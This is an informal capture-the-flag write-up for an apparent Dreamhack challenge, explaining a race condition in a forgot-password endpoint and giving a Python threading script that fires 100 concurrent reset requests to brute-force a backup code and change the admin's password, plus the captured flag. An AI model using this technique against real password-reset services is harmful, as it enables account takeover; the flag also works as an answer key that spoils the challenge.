




# solution

at first, i thought this challenge is some kinds of sqlI, but look the source code more carefully. I see a vulnerability related to race condition.
<br>
when you use forget_password the server will sleep(1). Hmm so if you send 100 request at once, then you can abuse the server to change the password via race condition.
So this is the idea how to get password. But you dont know admin'account. Let dive into a little bit.
<br>
i try this url, and see an interesting thing:
<br>
If you not lucky like me :(), you can bruce force it in intruder to find the admin'id.
Next, i will send 100 request in once time by using burp suite.
<br>
oke good. DH{4b308b526834909157a73567075c9ab7}
Here a python code, you can try this if you dont use burp suite

```
import threading
import requests

url = "http://host3.dreamhack.games:19427/forgot_password"

def check_password_change(i):
    data = {"userid": "Apple", "newpassword": "slow", "backupCode": i}
    response = requests.post(url, data=data)
    if "Password Change Success" in response.text:
        print(f"Password change successful with backupCode: {i}")

# Start multiple threads
for i in range(1, 101):
    thread = threading.Thread(target=check_password_change, args=(i,))
    thread.start()

print("finish")

```
